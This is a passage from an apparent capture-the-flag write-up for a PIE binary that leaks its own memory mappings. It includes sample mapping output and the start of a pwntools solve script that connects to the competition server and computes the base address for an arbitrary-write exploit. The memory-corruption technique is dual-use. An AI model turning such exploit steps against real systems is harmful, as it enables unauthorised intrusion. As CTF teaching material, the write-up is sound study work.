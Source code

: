 It's in the `.data` section of the binary, at an offset of `0x21e0`.

The program has PIE enabled, so each time it's run, the binary will have a new base address.

We need to find the base, then add the offset. Luckily, running the program against the remote server will print out the memory mappings, e.g.

{% code overflow="wrap" %}
```bash
I'll give you my mappings so that you'll have a shot.
55bae719b000-55bae719c000 r--p 00000000 00:11e 810424                    /home/user/chal
55bae719c000-55bae719d000 r-xp 00001000 00:11e 810424                    /home/user/chal
55bae719d000-55bae719e000 r--p 00002000 00:11e 810424                    /home/user/chal
55bae719e000-55bae719f000 r--p 00002000 00:11e 810424                    /home/user/chal
55bae719f000-55bae71a0000 rw-p 00003000 00:11e 810424                    /home/user/chal
55bae71a0000-55bae71a1000 rw-p 00000000 00:00 0
7fdfc7618000-7fdfc761b000 rw-p 00000000 00:00 0
7fdfc761b000-7fdfc7643000 r--p 00000000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7fdfc7643000-7fdfc77d8000 r-xp 00028000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7fdfc77d8000-7fdfc7830000 r--p 001bd000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7fdfc7830000-7fdfc7834000 r--p 00214000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7fdfc7834000-7fdfc7836000 rw-p 00218000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7fdfc7836000-7fdfc7843000 rw-p 00000000 00:00 0
7fdfc7845000-7fdfc7847000 rw-p 00000000 00:00 0
7fdfc7847000-7fdfc7849000 r--p 00000000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fdfc7849000-7fdfc7873000 r-xp 00002000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fdfc7873000-7fdfc787e000 r--p 0002c000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fdfc787f000-7fdfc7881000 r--p 00037000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fdfc7881000-7fdfc7883000 rw-p 00039000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7ffd5fb05000-7ffd5fb26000 rw-p 00000000 00:00 0                          [stack]
7ffd5fbe5000-7ffd5fbe9000 r--p 00000000 00:00 0                          [vvar]
7ffd5fbe9000-7ffd5fbeb000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]
```
{% endcode %}

Therefore, we'll write a script to parse this response and calculate the correct address. We'll send that address when requested and the next time the loop executes, it will print the newly written data (🚩).

## Solve Script

{% code overflow="wrap" %}
```python
from pwn import *

io = remote('wfw1.2023.ctfcompetition.com',1337)
context.log_level='info'

# Offset to the string in .data section, which is printed in while loop
data_string_offset = 0x21e0

# Find the piebase
maps = io.recvuntil(b'/home/user/chal')
maps = maps.split(b'/home/user/chal')[0].split(b'\n')[-1]
piebase = int(maps[:12], 16)
```
